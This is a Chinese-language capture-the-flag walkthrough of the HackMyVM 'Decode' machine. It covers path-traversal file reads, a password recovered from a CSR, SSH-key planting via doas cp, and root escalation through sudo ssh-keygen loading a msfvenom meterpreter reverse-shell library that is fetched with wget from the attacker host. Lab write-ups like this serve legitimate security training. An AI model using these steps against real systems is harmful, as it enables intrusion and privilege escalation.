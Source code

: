 # Decode

2025.02.06 https://hackmyvm.eu/machines/machine.php?vm=Decode

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 web 80 看看，http://192.168.5.40/robots.txt 显示了一些目录:

```
User-agent: decode
Disallow: /encode/

User-agent: *
Allow: /
Allow: /decode
Allow: ../
Allow: /index
Allow: .shtml
Allow: /lfi../
Allow: /etc/
Allow: passwd
Allow: /usr/
Allow: share
Allow: /var/www/html/
Allow: /cgi-bin/
Allow: decode.sh
```

使用 bp 抓包，修改 user-agent 为 decode，尝试访问 /encode/ 但是显示 404。访问http://192.168.5.40/decode 会在结尾自动添加/，同时根据 robots.txt 中的提示/lfi../，这里可能存在目录穿越。

http://192.168.5.40/decode/ 以此目录为基础 gobuster 再次进行扫描，发现了更多新的可访问的内容，发现能读取到一些系统内的文件。

http://192.168.5.40/decode/passwd 发现了登陆用户:

```
root:x:0:0:root:/root:/bin/bash
...
steve:$y$j9T$gbohHcbFkUEmW0d3ZeUx40$Xa/DJJdFujIezo5lg9PDmswZH32cG6kAWP.crcqrqo/:1001:1001::/usr/share:/bin/bash
decoder:x:1002:1002::/home/decoder:/usr/sbin/nologin
ajneya:x:1003:1003::/home/ajneya:/bin/bash
```

但是这个 hash 没有解密出来，继续看上面的 robots.txt 中的信息，经过测试，发现 curl http://192.168.5.40/decode../etc/passwd 也能访问到 passwd 文件。

如果以 http://192.168.5.40/decode../ 为基础，后面添加系统中的文件，就能访问其内容。

在组合 robots.txt 中的其他目录，curl http://192.168.5.40/cgi-bin/decode.sh 发现可以看到 ls 的执行效果，但是没什么用。

steve 的 home 目录在/usr/share ，gobuster 再次扫描，看看里面能找到什么文件。经过扫描发现 curl http://192.168.5.40/decode../usr/share/.bash_history 其显示内容为 rm -rf /usr/share/ssl-cert/decode.csr 查看这个文件 curl http://192.168.5.40/decode../usr/share/ssl-cert/decode.csr 得到其内容：

```
-----BEGIN CERTIFICATE REQUEST-----
MIIDAzCCAesCAQAwSDERMA8GA1UEAwwISGFja015Vk0xDzANBgNVBAgMBmRlY29k
ZTEPMA0GA1UEBwwGZGVjb2RlMREwDwYDVQQKDAhIYWNrTXlWTTCCASIwDQYJKoZI
hvcNAQEBBQADggEPADCCAQoCggEBANnSG9vEEGPRgDA/cT6NT3sMKsi6dLhKwRgy
PcRpRt1TO63kpY2PxNSgOPpydjUm34nwghy5lPL4+GBXoNOHMhQI1hUVqZXmuFB8
+DCETqXNfV5JnTRMG5tr2m4vV1HNTH+/GUueBm5R/ERu69n2xMADs4nEL3iRjOO/
19sYZIj+ZDaN3MouyqrprWy9PBwKf2VTy4prJh6nTEVSV8oRRtd+nOxfEG6890+P
lF6s0XDpv8V001aiJWSceYPIikvKXaVy45h3JoYzWsQzt3b1R22DuPjAOQ3AvZbp
V68lkF+S1rIa7gsb8oeZI16yPz+GEPVvXGzLyIYhDixdxOCFZaECAwEAAaB2MBkG
CSqGSIb3DQEJBzEMDAppNG1EM2MwZDNyMFkGCSqGSIb3DQEJDjFMMEowDgYDVR0P
AQH/BAQDAgWgMCAGA1UdJQEB/wQWMBQGCCsGAQUFBwMBBggrBgEFBQcDAjAWBgNV
HREEDzANggtoYWNrbXl2bS5ldTANBgkqhkiG9w0BAQsFAAOCAQEAO73W3pTMqSm2
A37vepuR4F3ycnFKdFyRhk1rtO1LE9OWOI3bQ7kW0wIFuRaqFONsG/mvGFgEfRR8
xpgSYmnzWJQ0nTOtGi6d7F0dFFmYIXe75+6QYM2ZwAYf3lW+HRKLXhh5FMeoXJHo
eU64o9tFdhWxcB1OLAGEG9MI6AhN62ZTrKwMq13/PIteoPAEnlVgBidxQxUVHQfO
EwMP38jzm+HESbZsNVjX4RQjtvBUAKQUTBRYuS02QqqC5ajHz0RWaGgrGIyKrip5
yRjgsjxtmadaetxSasIg5tsjSFGyyVVPsdY4umAUUm+dSobruxcyXuxXIgn27Z7M
h97It2ELpw==
-----END CERTIFICATE REQUEST-----
```

使用 openssl req -in mycsr.csr -noout -text ，得到解码后的内容为，得到了 steve 用户的密码：

```
Attributes:
    challengePassword        :i4mD3c0d3r
```

登陆 steve/i4mD3c0d3r ssh， sudo -l 发现: `(decoder) NOPASSWD: /usr/bin/openssl enc *, /usr/bin/tee` 但是没什么作用。

看看 suid，发现/usr/bin/doas，查看其配置文件：

```
steve@decode:/home/ajneya$ cat /etc/doas.conf
permit nopass steve as ajneya cmd cp
```

允许 steve 以 ajneya 身份执行 cp 命令，可以生成公钥，将其放到 /home/ajneya/.ssh/authorized_keys 中:

```
cd ~
ssh-keygen
cp id_rsa.pub id_rsa.b
chmod +r id_rsa.b
mkdir -p /tmp/b/.ssh
cp id_rsa.b /tmp/b/.ssh/authorized_keys
doas -u ajneya cp -r /tmp/b/.ssh /home/ajneya/
ssh ajneya@192.168.5.40
```

登陆后，得到了 user flag:

```
ajneya@decode:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

sudo -l 发现：

```
(root) NOPASSWD: /usr/bin/ssh-keygen * /opt/*
```

GTFOBin 中提示:

```
sudo ssh-keygen -D ./lib.so
```

使用 msf 制作 so 文件，进行反弹：

```
msfvenom LHOST=192.168.5.3 LPORT=8888 -p linux/x64/meterpreter/reverse_tcp -f elf-so > lib.so
```

将 so 文件下载到目标机器的/tmp 文件夹中:

```
cd /tmp
wget http://192.168.5.3/z/lib.so
chmod 777 lib.so
sudo -u root /usr/bin/ssh-keygen -D /opt/../tmp/lib.so
```

执行后，得到反弹的 x64 meterpreter，最终得到 root flag:

```
cat root.txt
63a9f0ea7bb98050796b649e85481845
```
